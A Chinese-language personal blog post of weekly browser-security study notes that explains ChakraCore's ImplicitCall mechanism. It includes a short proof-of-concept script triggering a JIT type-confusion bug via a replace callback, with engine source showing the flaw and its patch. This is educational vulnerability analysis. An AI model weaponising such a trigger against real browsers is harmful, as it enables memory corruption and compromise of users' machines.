 ```yaml
---
layout: post
title:  "浏览器安全周报 2019.12.02 - 2019.12.06"
date:   2019-12-06 18:00:00 +520
categories: Browser Security
---
```


上周五笔记本送修，水果店告诉我没有配件现货，订货加维修可能要一周时间，还以为这周的安全周报没法写了，结果周日就告诉我维修完成可以去拿，这售后可以啊！

这周主要是看ChakraCore的一些内部机制，比如回调相关的ImplicitCall机制

主要是学习的elli0tn0phack师傅的文章《Chakra漏洞调试笔记1——ImplicitCall》，这一系列文章我学到了很多，当然目前只是读了几遍，其中很多的知识点我都还在一点一点的学习，这周主要把ImplicitCall机制给学习清楚了，这里也感谢elli0tn0phack师傅和Sakura师傅耐心的指导，感谢师傅们！
- https://www.anquanke.com/post/id/180551

elli0tn0phack师傅在今年的BlueHat Shanghai也有关于浏览器安全相关的精彩演讲《Browser Script Engine Zero Days in 2018》
- https://images.seebug.org/archive/Browser_Script_Engine_Zero_Days_in_2018-EN.pdf
- https://www.microsoft.com/en-us/videoplayer/embed/RE39Zq1

这个会议的官网上有本次会议的大部分视频以及所有的Slides
- https://www.microsoft.com/china/bluehatshanghai/2019/#Agenda

关于ImplicitCall机制，它是用于防止执行回调修改了JS对象，但是JIT不知道的情况，比如`valueOf`回调里修改了数组的长度，但是JIT循环的时候还是缓存的长度，那就会造成一个越界访问

Poc
```
function main() {
    let arr = [1.1, 1.1, 1.1, 1.1, 1.1];
    function opt(f) {
        arr[0] = 1.1;
        arr[1] = 2.3023e-320 + parseInt('a'.replace('a', f));
        arr[2] = 1.1;
        arr[3] = 1.1;
    }

    let r0 = () => '0';
    for (var i = 0; i < 0x1000; i++)
        opt(r0);

    opt(() => {
        arr[0] = {};
        return '0';
    });

    print(arr[1]);
}

main();
```

这个漏洞的成因是因为在JITed Code里触发回调修改了数组`arr`的类型，但是JIT Compiler没有意识到这一点，导致JS层数组修改了类型，但是引擎还把数组当作浮点数数组进行赋值操作

正常情况下JIT Compiler是考虑了回调改变对象内存布局这种情况的，具体实现由`Js::Var ExecuteImplicitCall`来完成
```
template <class Fn>
inline Js::Var ExecuteImplicitCall(Js::RecyclableObject * function, Js::ImplicitCallFlags flags, Fn implicitCall)
{
    // For now, we will not allow Function that is marked as HasNoSideEffect to be called, and we will just bailout.
    // These function may still throw exceptions, so we will need to add checks with RecordImplicitException
    // so that we don't throw exception when disableImplicitCall is set before we allow these function to be called
    // as an optimization.  (These functions are valueOf and toString calls for built-in non primitive types)

    Js::FunctionInfo::Attributes attributes = Js::FunctionInfo::GetAttributes(function);

    // we can hoist out const method if we know the function doesn't have side effect,
    // and the value can be hoisted.
    // 没有Side Effect的函数可以直接调用
    if (this->HasNoSideEffect(function, attributes))
    {
        // Has no side effect means the function does not change global value or
        // will check for implicit call flags
        return implicitCall();
    }

    // Don't call the implicit call if disable implicit call
    // 如果ImplicitCall被禁用表示不允许调用
    if (IsDisableImplicitCall())
    {
        AddImplicitCallFlags(flags);
        // Return "undefined" just so we have a valid var, in case subsequent instructions are executed
        // before we bail out.
        return function->GetScriptContext()->GetLibrary()->GetUndefined();
    }

    if ((attributes & Js::FunctionInfo::HasNoSideEffect) != 0)
    {
        // Has no side effect means the function does not change global value or
        // will check for implicit call flags
        return implicitCall();
    }

    // Save and restore implicit flags around the implicit call

    // 此时明确有回调且有Side Effect，所以设置saveImplicitCallFlags的值
    Js::ImplicitCallFlags saveImplicitCallFlags = this->GetImplicitCallFlags();
    Js::Var result = implicitCall();
    this->SetImplicitCallFlags((Js::ImplicitCallFlags)(saveImplicitCallFlags | flags));
    return result;
}
```

函数`RegexHelper::StringReplace`实现的地方，可以看到直接调用用户定义的函数，没有做检查
```
Var RegexHelper::StringReplace(JavascriptString* match, JavascriptString* input, JavascriptFunction* replacefn)
{
    CharCount indexMatched = JavascriptString::strstr(input, match, true);
    ScriptContext* scriptContext = replacefn->GetScriptContext();
    Assert(match->GetScriptContext() == scriptContext);
    Assert(input->GetScriptContext() == scriptContext);

    if (indexMatched != CharCountFlag)
    {
        Var pThis = scriptContext->GetLibrary()->GetUndefined();
        // 调用用户定义的函数
        Var replaceVar = CALL_FUNCTION(scriptContext->GetThreadContext(), replacefn, CallInfo(4), pThis, match, JavascriptNumber::ToVar((int)indexMatched, scriptContext), input);  // <--
        JavascriptString* replace = JavascriptConversion::ToString(replaceVar, scriptContext);
        const char16* inputStr = input->GetString();
        const char16* prefixStr = inputStr;
        CharCount prefixLength = indexMatched;
        const char16* postfixStr = inputStr + prefixLength + match->GetLength();
        CharCount postfixLength = input->GetLength() - prefixLength - match->GetLength();
        CharCount newLength = prefixLength + postfixLength + replace->GetLength();
        BufferStringBuilder bufferString(newLength, match->GetScriptContext());
        bufferString.SetContent(prefixStr, prefixLength,
                                replace->GetString(), replace->GetLength(),
                                postfixStr, postfixLength);
        return bufferString.ToString();
    }
    return input;
}
```

为什么最后面的标志位可以用于判断是否有回调呢？

我们来看Patch后的调用，传入的是`ImplicitCall_Accessor`，对应的值是`0x04`，最后通过`|`就不是原来的值，所以JIT在检查的时候，一看`ImplicitCallFlags`不是原来的值，那就说明`ExecuteImplicitCall`判断这里存在回调，所以直接BailOut到Interpreter去解释执行
```
ThreadContext* threadContext = scriptContext->GetThreadContext();
Var replaceVar = threadContext->ExecuteImplicitCall(replacefn, ImplicitCall_Accessor, [=]()->Js::Var
{
    Var pThis = scriptContext->GetLibrary()->GetUndefined();
    return CALL_FUNCTION(threadContext, replacefn, CallInfo(4), pThis, match, JavascriptNumber::ToVar((int)indexMatched, scriptContext), input);
});

enum ImplicitCallFlags : BYTE
{
    ImplicitCall_HasNoInfo = 0x00,
    ImplicitCall_None = 0x01,
    ImplicitCall_ToPrimitive = 0x02 | ImplicitCall_None,
    ImplicitCall_Accessor = 0x04 | ImplicitCall_None,
    ImplicitCall_NonProfiledAccessor = 0x08 | ImplicitCall_None,
    ImplicitCall_External = 0x10 | ImplicitCall_None,
    ImplicitCall_Exception = 0x20 | ImplicitCall_None,
    ImplicitCall_NoOpSet = 0x40 | ImplicitCall_None,
    ImplicitCall_All = 0x7F,
    ImplicitCall_AsyncHostOperation = 0x80
};
```

之前分析的SamsungSMT逻辑提权漏洞，详细分析写了一半后来就没动了，看看下周写完给发出来吧，我喜欢逻辑漏洞，剩下的时间多看看编译原理，现在再来看编译原理感觉能和编译器很多知识点对应上，很有趣:))